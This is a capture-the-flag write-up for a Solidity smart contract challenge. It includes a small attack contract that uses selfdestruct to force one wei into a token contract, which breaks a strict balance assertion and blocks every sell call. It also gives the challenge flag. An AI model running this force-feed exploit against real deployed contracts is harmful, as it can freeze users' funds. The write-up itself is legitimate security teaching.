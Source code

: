 # Challenge 01: Classic one tbh

## Challenge

We are provided with one contract and it's address. 

```solidity
pragma solidity 0.8.17;

contract  hero2303
 {
    mapping (address => uint256) private userBalances;

    uint256 public constant TOKEN_PRICE = 1 ether;
    string public constant name = "UNDIVTOK";
    string public constant symbol = "UDK";
    
    uint8 public constant decimals = 0;

    uint256 public totalSupply;

    function buy(uint256 _amount) external payable {
        require(
            msg.value == _amount * TOKEN_PRICE, 
            "Ether submitted and Token amount to buy mismatch"
        );

        userBalances[msg.sender] += _amount;
        totalSupply += _amount;
    }

    function sell(uint256 _amount) external {
        require(userBalances[msg.sender] >= _amount, "Insufficient balance");

        userBalances[msg.sender] -= _amount;
        totalSupply -= _amount;

        (bool success, ) = msg.sender.call{value: _amount * TOKEN_PRICE}("");
        require(success, "Failed to send Ether");

        assert(getEtherBalance() == totalSupply * TOKEN_PRICE);
    }

    function transfer(address _to, uint256 _amount) external {
        require(_to != address(0), "_to address is not valid");
        require(userBalances[msg.sender] >= _amount, "Insufficient balance");
        
        userBalances[msg.sender] -= _amount;
        userBalances[_to] += _amount;
    }

    function getEtherBalance() public view returns (uint256) {
        return address(this).balance;
    }

    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
}
```

The goal is to make everyone unable to call the sell function.

## Solution

The solution is pretty easy. The sell function checks for the balance being the exact value of the tokens.

```
assert(getEtherBalance() == totalSupply * TOKEN_PRICE);
```

The contract should be safe from this ever being different, but the developer forgot that you can always force feed a contract using selfdestruct. I just implemented an easy attack which sent one wei to the contract and was done.

```solidity
pragma solidity 0.8.17;

contract Attack {
    function attack(address payable addr) public payable {
        selfdestruct(addr);
    }
}
```

Flag: Hero{S4m3_aS_USU4L_bUT_S3eN_IRL??!}